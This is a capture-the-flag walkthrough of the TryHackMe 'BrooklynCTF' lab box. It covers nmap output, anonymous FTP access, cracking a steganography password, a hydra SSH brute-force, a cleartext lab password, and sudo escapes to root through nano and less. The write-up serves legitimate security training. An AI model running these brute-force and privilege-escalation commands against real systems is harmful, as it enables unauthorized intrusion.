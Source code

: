 # TryHackMe-BrooklynCTF
Abdullah Rizwan, 25 August , 09:15 PM

BrooklynCTF is a beginner level anyone can try to hack this box. There are two main intended ways to root the box.

## NMAP
```
nmap -sC -sV 10.10.182.198
```

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-25 21:16 EDT
Stats: 0:00:15 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 99.99% done; ETC: 21:16 (0:00:00 remaining)
Nmap scan report for 10.10.182.198
Host is up (0.16s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.94.60
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.96 seconds

```
There are 3 ports open on this box.Lets first visit the webpage.

## PORT 80

<a href="https://imgur.com/gXJz19O"><img src="https://i.imgur.com/gXJz19O.png" title="source: imgur.com" /></a>

<a href="https://imgur.com/HmjZ1iK"><img src="https://i.imgur.com/HmjZ1iK.png" title="source: imgur.com" /></a>

When we look at the source of this page it says something about steganography so that image has something hidden with it.

## PORT 21

<a href="https://imgur.com/sNTPWsN"><img src="https://i.imgur.com/sNTPWsN.png" title="source: imgur.com" /></a>

Since ftp is open we can connect to using the username "anonymous" with no password to be provided and we can download a file named "note_to_jake".

<a href="https://imgur.com/wwNH0TH"><img src="https://i.imgur.com/wwNH0TH.png" title="source: imgur.com" /></a>

So we know that there is a user named "jake".

## Steganography

We saw a hidden message towards steganography so now lets try to extract data from image.

<a href="https://imgur.com/qspdhaP"><img src="https://i.imgur.com/qspdhaP.png" title="source: imgur.com" /></a>

If we try to extract data from image it's going to ask for a password so we have to crack it using "stegcracker" which can be installed from here
https://github.com/Paradoxis/StegCracker.

<a href="https://imgur.com/ShNAWPL"><img src="https://i.imgur.com/ShNAWPL.png" title="source: imgur.com" /></a>

<a href="https://imgur.com/ShNAWPL"><img src="https://i.imgur.com/ShNAWPL.png" title="source: imgur.com" /></a>

## PORT 22

As we have found that there are two users "jake" and "holt" in order to find out jake's password we can bruteforce ssh using hydra

```
hydra -l jake -P /usr/share/wordlists/rockyou.txt -t 16 10.10.182.198 ssh

```

<a href="https://imgur.com/p3YTZ48"><img src="https://i.imgur.com/p3YTZ48.png" title="source: imgur.com" /></a>

For simplicity lets make a variable for the box's IP

```
export IP=10.10.182.198
```
<a href="https://imgur.com/NNPCW29"><img src="https://i.imgur.com/NNPCW29.png" title="source: imgur.com" /></a>

<a href="https://imgur.com/OSQMIBE"><img src="https://i.imgur.com/OSQMIBE.png" title="source: imgur.com" /></a>

We can now use "less" command in order to view files.


## Privilege Escalation (Holt)

In order to completely own the box through Holt we have sudo rights for "nano".

The password that we got from extracting information from the image can be utilized here


Login as "holt" from ssh using  password "fluffydog12@ninenine".

<a href="https://imgur.com/NNPCW29"><img src="https://i.imgur.com/NNPCW29.png" title="source: imgur.com" /></a>

```
holt@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
holt@brookly_nine_nine:~$

```
Visit GTFOBIN for escalating privileges

```
sudo nano
```
```
^R^X
```
```
reset; sh 1>&0 2>&0
```
<a href="https://imgur.com/tHylRoZ"><img src="https://i.imgur.com/tHylRoZ.png" title="source: imgur.com" /></a>

As soon as you'll hit enter you will be "root".

<a href="https://imgur.com/0K4C4zl"><img src="https://i.imgur.com/0K4C4zl.png" title="source: imgur.com" /></a>


## Privilege Escalation (Jake)

Login as jake through ssh after you got his credentials through bruteforce or you can switch between usesr.

```
su - jake
password:
```

<a href="https://imgur.com/OSQMIBE"><img src="https://i.imgur.com/OSQMIBE.png" title="source: imgur.com" /></a>

```
sudo less /etc/profile
```
```
!/bin/sh
```
<a href="https://imgur.com/1Fkjhyn"><img src="https://i.imgur.com/1Fkjhyn.png" title="source: imgur.com" /></a>
